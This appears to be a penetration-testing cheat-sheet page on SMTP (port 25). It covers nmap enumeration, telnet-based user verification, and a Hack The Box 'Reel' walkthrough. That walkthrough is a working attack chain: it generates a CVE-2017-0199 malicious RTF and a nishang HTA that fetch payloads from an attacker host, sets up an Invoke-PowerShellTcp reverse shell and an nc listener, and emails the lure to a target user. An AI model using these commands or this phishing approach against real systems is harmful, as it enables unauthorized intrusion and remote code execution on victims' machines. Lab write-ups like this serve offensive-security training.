 # 25 (SMTP)

## Enumeration

### Scripts

#### nmap

```bash
nmap -p25 --script smtp-commands <IP>
nmap --script smtp-enum-users <IP>
```

### Manual

```bash
telnet <IP> 25
HELO anydomain.com
MAIL FROM: BruceWayne@WayneCorp.com  # Select email address to send from
250 OK
RCPT TO: <nico@megabank.com>  # Specify email address to send to
250 OK  # Verifies the user exists
RCPT TO: <unknown@megabank.com>
550 Unknown User  # Verifies user does not exist
RCPT TO: <random@random.com>
250 OK  # Cannot actually verify as its a different domain

```

Look into sending a malicious document to have the recipient of the email open it and hopefully gain a reverse shell or have the malicious code executed.

#### Example

CVE-2017-0199 RTF file exploit using the Reel machine on Hack The Box.

<pre class="language-bash"><code class="lang-bash"># Generate malicious RTF file
python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://attacker/test.hta -t RTF -x 0
<strong># Generate malicous HTA file using examples from Out-HTA.ps1
</strong><strong>cd /opt/nishang/Client
</strong><strong>pwsh  # Start up PowerShell on Kali
</strong><strong>.\Out-HTA.ps1
</strong><strong>Out-HTA -PayloadURL http://attacker/test.ps1  # Create new ps1 script file
</strong><strong>
</strong><strong>mv winDef_webInstall.hta /path/to/www
</strong><strong>cp ../CVE-2017-0199/test.rtf /peth/to/www
</strong><strong>cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
</strong><strong>mv /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 test.ps1  # Move Invoke-PowerShellTcp -Reverse to the bottom of the script
</strong><strong>python3 -m http.server 80
</strong><strong>nc -lvnp 9001
</strong><strong>
</strong><strong>sendemail -f test@megabank.com -t nico@megabank.com -u RTF -m "Please conver this" -a test.rtf -s 10.10.10.77
</strong><strong># Wait for reverse shell</strong></code></pre>

